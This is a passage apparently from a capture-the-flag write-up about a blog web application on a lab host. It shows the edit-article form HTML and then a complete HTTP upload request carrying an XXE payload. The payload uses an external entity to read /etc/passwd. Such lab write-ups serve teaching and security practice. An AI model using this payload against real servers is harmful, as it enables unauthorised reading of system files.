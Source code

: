 ```html
<body>
    <div class="container">
        <h1 class="mb-4">Edit Article</h1>

        <form action="/articles/626a032362c6eab1a2bb4711?_method=PUT" method="POST">
            <div class="form-group">
    <label for="title">Title</label>
    <input required value="Example Post" type="text" name="title" id="title" class="form-control">
  </div>
  <div class="form-group">
    <label for="description">Description</label>
    <textarea name="description" id="description" class="form-control">Example Description</textarea>
  </div>
  <div class="form-group">
    <label for="markdown">Markdown</label>
    <textarea required name="markdown" id="markdown" class="form-control">Example Markdown</textarea>
  </div>

  <a href="/" class="btn btn-secondary">Cancel</a>
  <button type="submit" class="btn btn-primary">Save</button>
        </form>
    </div>
</body>
</html>
```

Next, I tried some XXE with the upload.

```http
POST /articles/xml HTTP/1.1
Host: target.htb:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
If-None-Match: W/"763-yBLqx1Bg/Trp0SZ2cyMSGFoH5nU"
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=---------------------------134965792736974121853184188709
Content-Length: 381

-----------------------------134965792736974121853184188709
Content-Disposition: form-data; name="file"; filename="test.xml"
Content-Type: text/xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<post><title>aaa Post</title><description>Example Description</description><markdown>&file;</markdown></post>

-----------------------------134965792736974121853184188709--
```
